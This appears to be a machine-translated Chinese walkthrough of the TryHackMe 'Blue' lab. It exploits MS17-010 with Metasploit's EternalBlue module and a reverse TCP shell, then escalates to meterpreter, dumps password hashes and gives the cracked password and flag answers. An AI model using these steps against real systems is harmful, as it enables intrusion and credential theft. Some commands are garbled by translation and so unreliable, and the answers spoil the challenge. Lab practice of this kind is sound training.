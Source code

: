 # Tryhackme Blue 演练

> 原文：<https://infosecwriteups.com/tryhackme-blue-walkthrough-b0ec9b60e563?source=collection_archive---------1----------------------->

作者:穆基兰·B

> 嗨，了不起的黑客们，我又带着另一个有趣的话题回来了。

首先，部署攻击箱或通过自己的机器运行。

![](img/c91aaa1bb2cf60f771f4f579a17b0466.png)![](img/7c09e796f61380009922f01347058081.png)

然后他们告诉的第一个任务是扫描机器的漏洞。

他们给出的使用命令查找漏洞的提示

> **命令:nmap -sV -vv —脚本 vuln TARGET_IP**

然后扫描机器，显示机器中的漏洞列表。

![](img/671a78174d210e159d893c4bad3b16c8.png)

> **端口号在 1000 以下的开放端口有多少个？**

***安:3***

![](img/9dc33c9285a0c8005d39b0dd673a95fe.png)

> **这台机器容易受到什么攻击？(以:ms 的形式回答？？-?？？，例如:ms08–067)**

***回答:ms17–010***

![](img/cc69e05d3e0dd70c815d8e1df46b2740.png)

然后使用以下命令启动 Metasploit

> **$ msfconsole**
> 
> **找到我们将在机器上运行的利用代码。代码的完整路径是什么？(例如:利用/……..)**

***Ans:exploit/windows/SMB/ms17 _ 010 _ 永恒之蓝***

键入 ***在 msfconsole 中使用 exploit/windows/SMB/ms17 _ 010 _ eternal blue***

然后键入 **show options，**将显示 RHOSTS 和一些其他选项，如 **SESSIONS** 我们必须启用它键入 **set RHOSTS target-IP** 并

**设置会话 1** ，然后输入**运行。**

> **显示选项并设置一个所需的值。这个值的名称是什么？(提交时全部大写)**

***安:罗斯特***

> **通常，按原样运行此漏洞利用就可以了；但是，为了学习，你应该在开发目标之前再做一件事。输入以下命令并按回车键:**

`***set payload windows/x64/shell/reverse_tcp***`

> **确认漏洞利用已经正确运行。您可能需要按 enter 键，DOS shell 才会出现。这个外壳的背景(CTRL + Z)。如果失败，您可能需要重新启动目标虚拟机。请尝试在目标重新启动之前再次运行它。**

运行漏洞攻击后，您可以通过键入 **shell** 命令进入 shell

键入**whoami**它会发现它的管理员名称

要从 shell 运行回**meter preter**type***Ctrl+z .***

它会询问后台会话 1 是/否键入 ***是*** 返回到 ***meterpreter。***

> 如果你还没有，背景之前获得的外壳(CTRL + Z)。在线研究如何在 Metasploit 中将 shell 转换为 meterpreter shell。我们将使用的后置模块的名称是什么？(确切的路径，类似于我们之前选择的漏洞)

**Ans:post/multi/manage/shell _ to _ meter preter**

> **选择此项(使用模块路径)。显示选项，我们需要更改什么选项？**

***Ans:会话***

我们希望 post 通过输入以下有效载荷来利用它

***使用 post/multi/manage/shell _ to _ meter preter***

键入此有效载荷后，输入 ***显示选项***

启用 ***lhost*** 和 ***会话***

键入 ***get-system*** 命令和 ***ps*** 命令并迁移进程 id

类型迁移 ***PROCESS_ID***

> **在我们提升的 meterpreter shell 中，运行命令‘hash dump’。这将转储机器上的所有密码，只要我们有正确的权限这样做。非默认用户的名称是什么？**

**安:乔恩 **

> **把这个密码哈希复制到一个文件里，研究如何破解。被破解的密码是什么？**

**Ans:alqfna 22**

下一个任务是找到一些标志:

在这里输入 ***find -f flag*。txt***

您可以找到此任务的标志

> **Flag1？*这个标志可以在系统根目录下找到。***

***Ans:标志{access_the_machine}***

> ***勘误表:Windows 确实不喜欢这个标志的位置，偶尔可以删除。在某些情况下，可能需要终止/重新启动机器，并重新运行漏洞来查找此标志。然而，这种相对罕见的情况会发生。**

***标志{ Sam _ database _ elevated _ access }***

> **flag3？这面旗帜可以在一个绝佳的地点找到。毕竟，管理员通常会保存一些非常有趣的东西。**

***标志{ admin _ documents _ can _ be _ valued }***

**Thankyou 了不起的黑客**